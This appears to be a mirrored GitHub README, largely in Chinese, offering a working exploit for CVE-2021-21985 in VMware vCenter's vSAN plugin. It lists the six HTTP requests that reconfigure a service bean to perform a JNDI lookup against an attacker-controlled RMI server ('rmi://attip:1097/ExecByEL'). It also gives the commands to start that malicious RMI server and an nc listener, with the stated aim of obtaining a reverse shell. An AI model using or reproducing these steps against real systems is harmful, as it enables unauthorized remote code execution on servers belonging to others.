 # cve-2021-21985_exp

cve-2021-21985 exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/xnianq](https://github.com/xnianq) |
| Url      | [https://github.com/xnianq/cve-2021-21985_exp](https://github.com/xnianq/cve-2021-21985_exp)                                               |
| Stars    | 105                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# cve-2021-21985 exploit

## 0x01 漏洞点

![image-20210603144442312](README.assets/image-20210603144442312.png)

分析可见：

https://attackerkb.com/topics/X85GKjaVER/cve-2021-21985?referrer=home#rapid7-analysis

## 0x02 exploit

对beans对象进行重新构造，实现rce。

bean列表： 

```
localizedMessageBundle
vsanWorkerThreadFactory
vsanThreadPoolImpl
vsanServiceBundleActivator
vsanServiceFactory
vsanProviderUtils_setVmodlHelper
vsanProviderUtils_setVsanServiceFactory
vsanQueryUtil_setDataService
vsanComponentsProviderImpl
capabilityPropertyProviderImpl
pbmDataProviderImpl
vsanCapabilityCacheManager
vsanCapabilityUtils_setVsanCapabilityCacheManager
vsanUtils_setMessageBundle
vsanFormatUtils_setUserSessionService
```

随风大佬使用的vsanProviderUtils_setVmodlHelper在我这边环境没测试成功，就选用了另外的bean进行测试，由于Vsphere UI使用的tomcat中间件，可以通过jndi rmi bypass(https://github.com/welk1n/JNDI-Injection-Bypass/blob/master/src/main/java/payloads/EvilRMIServer.java）远程执行命令。

```
Step1
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetObject
{"methodInput":[null]}


Step2
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setStaticMethod
{"methodInput":["javax.naming.InitialContext.doLookup"]}

Step3
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetMethod
{"methodInput":["doLookup"]}

Step4 
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setArguments
{"methodInput":[["rmi://attip:1097/ExecByEL"]]}

Step5
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/prepare
{"methodInput":[]}

Step6
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/invoke
{"methodInput":[]}
```

## 0x03 使用方法

1. 启动rmi服务
  java -cp  JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer attip
  ![image-20210603201234855](README.assets/image-20210603201234855.png)
2. 启动reverse shell 侦听
```angular2
nc -lvvp 5555
```
3. 执行以上payload，得到reverse shell
![image-20210603201337539](README.assets/image-20210603201337539.png)

## 0x04 reference
* https://www.iswin.org/2021/06/02/Vcenter-Server-CVE-2021-21985-RCE-PAYLOAD/
* https://attackerkb.com/topics/X85GKjaVER/cve-2021-21985#rapid7-analysis
* https://github.com/welk1n/JNDI-Injection-Bypass



## Get the content

```
git clone https://github.com/xnianq/cve-2021-21985_exp
cd cve-2021-21985_exp
```

{% embed url="https://github.com/xnianq/cve-2021-21985_exp" %}

<figure><img src="https://avatars.githubusercontent.com/u/17513849?v=4" alt=""><figcaption><p>xnianq</p></figcaption></figure>
